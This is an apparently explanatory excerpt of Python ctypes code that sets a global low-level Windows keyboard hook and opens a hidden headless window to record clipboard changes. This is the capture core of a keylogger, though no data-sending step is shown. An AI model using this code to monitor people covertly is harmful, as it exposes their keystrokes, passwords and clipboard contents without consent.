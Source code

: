 The Keyboard Hook only took online line compared to the Clipboard listener below, because I commented:

> because it is WH_KEYBOARD_LL, it doesn't require an external DLL injected into it, unlike WH_KEYBOARD & WH_CALLWNDFUNC


```python
if __name__ == '__main__':
	#
	#ONE LINE SETS UP KEYBOARD HOOK
	#
	#and because it is WH_KEYBOARD_LL, it doesn't require an external DLL injected into it, unlike WH_KEYBOARD & WH_CALLWNDFUNC
	#
	kHook = user32.SetWindowsHookExW(WH_KEYBOARD_LL, keyboard_low_level, None, 0)
	#
	#Creating a dummy window with the only SOLE purpose of recording clipboard changes
	#
	WNDPROCTYPE = WINFUNCTYPE(c_int, HWND, c_uint, WPARAM, LPARAM)
	class WNDCLASSEX(Structure):
		_fields_ = [("cbSize", c_uint),
					("style", c_uint),
					("lpfnWndProc", WNDPROCTYPE),
					("cbClsExtra", c_int),
					("cbWndExtra", c_int),
					("hInstance", HANDLE),
					("hIcon", HANDLE),
					("hCursor", HANDLE),
					("hBrush", HANDLE),
					("lpszMenuName", LPCWSTR),
					("lpszClassName", LPCWSTR),
					("hIconSm", HANDLE)]
	wclassName = u'Dummy'
	wndClass = WNDCLASSEX()
	wndClass.cbSize = sizeof(WNDCLASSEX)
	wndClass.lpfnWndProc = WNDPROCTYPE(wnd_proc)
	wndClass.lpszClassName = wclassName
	#
	#Registering class called wndClass (containing class name) is necessary for Classname to work with CreateWindowExW.
	#
	user32.RegisterClassExW(byref(wndClass))
	#Headless dummy window
	hwnd_dummy = user32.CreateWindowExW(0, wclassName, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0)
	#apply clipboard listening to the headless window
	#If we were makign a real window, we use the ShowWindow & maybe the Update Window Function
	user32.AddClipboardFormatListener(hwnd_dummy)
	msg = MSG()
	lpmsg = pointer(msg)
	#Utilize display
	# print_banner()
	while user32.GetMessageW(lpmsg, 0, 0, 0) != 0:
		user32.TranslateMessage(lpmsg)
		user32.DispatchMessageW(lpmsg)
```
